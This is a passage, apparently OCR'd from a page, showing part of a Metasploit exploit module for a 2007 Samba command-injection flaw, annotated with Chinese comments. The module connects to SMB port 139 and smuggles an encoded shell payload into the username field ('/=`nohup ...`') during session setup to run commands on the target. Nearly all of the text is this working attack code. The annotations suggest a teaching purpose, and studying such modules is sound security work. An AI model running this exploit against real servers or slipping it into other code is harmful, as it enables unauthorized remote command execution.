 ```
      'Privileged'     => true, # root or nobody user
      'Payload'        =>
        {
          'Space'    => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              # *_perl and *_ruby work if they are installed
              # mileage may vary from system to system..
            }
        },
      'Targets'        =>
        [
          [ "Automatic", { } ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'May 14 2007'))

    # 模块配置参数，使用的远程端口号默认为 139
    register_options(
      [
        Opt::RPORT(139)
      ], self.class)
  end


  # 攻击过程
  def exploit
    
    # 连接目标服务 139 端口
    connect

    # 使用 payload 构建用户名，其中包含的 nohup 用来让命令在后台运行而不退出
    username = "/=`nohup " + payload.encoded + "`"
    
    # 进行 Samba 客户端连接操作，发送命令触发漏洞，如果出错则退出
    begin
      simple.client.negotiate(false)
      simple.client.session_setup_no_ntlmssp(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
      # nothing, it either worked or it didn't ;)
    end

    handler
  end

end
```
